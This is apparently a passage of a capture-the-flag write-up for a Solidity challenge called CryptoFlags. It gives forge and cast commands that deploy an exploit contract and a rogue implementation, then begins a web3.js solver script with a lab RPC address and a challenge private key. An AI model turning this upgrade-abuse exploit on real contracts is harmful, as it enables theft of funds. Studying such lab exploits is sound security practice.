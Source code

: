 ```
    flags.claimFlag(flagId);
    flags.setFlagName(flagId, payload);
  }
}
```

1. Get the `CryptoFlags` address: `FLAGS=$(cast call --rpc-url $RPC $SETUP "cryptoFlags() (address)")`
2. Deploy the Exploit contract: `forge create --broadcast --rpc-url $RPC --private-key $KEY ./Exploit.sol:Exploit --constructor-args $FLAGS`
3. Deploy the rogue implementation of the contract: `forge create --broadcast --rpc-url $RPC --private-key $KEY ./Exploit.sol:ExploitImpl`
4. Call the `exploit` method: `cast send --rpc-url $RPC --private-key $KEY $EXPLOIT "exploit(address)" $EXPLOIT_IMPL`
5. Check if the challenge is solved: `cast call --rpc-url $RPC $SETUP "isSolved() (bool)"`

Initially, I wanted to call the `claimFlag` and `setFlagName` functions manually using `cast`, without the need
for a second contract. However, the server crashed after calling `setFlagName`. I don't know why, maybe there
was too much data being sent.

I also wrote a solver script using `web3.js`. At the end (after `return`) there is the initial attempt of calling
these functions manually.

```js
const { Web3 } = require("web3");
const solc = require("solc");
const path = require("path");
const fs = require("fs");

const RPC_URL = "http://10.244.0.1:8545";
const CONFIG = JSON.parse(`
    {
        "setup": "0x042ecBf75FC7A76562C1123E735Eb22C570fc4f9",
        "address": "0x048bB2aDD31d4df0b19BF210ef0858035B109c75",
        "private_key": "0xc8a0d23425d64c81c328a98aab95ab250fc8effb5d990699ef521440e0b55372"
    }
`)
const PRIVATE_KEY = CONFIG["private_key"]; 
const SETUP = CONFIG["setup"];

const web3 = new Web3(RPC_URL);
const account = web3.eth.accounts.privateKeyToAccount(PRIVATE_KEY);
web3.eth.accounts.wallet.add(account);

const sourceFiles = [
  "Exploit.sol",
  "ERC721_flattened.sol",
  "CryptoFlags.sol",
  "Setup.sol",
  "UpgradeableProxy.sol"
];

(async () => {
  const input = {
    language: "Solidity",
    sources: Object.fromEntries(
      sourceFiles.map(file => [
        file,
        {
          content: fs.readFileSync(path.join(__dirname, file), "utf8"),
        }
      ])
```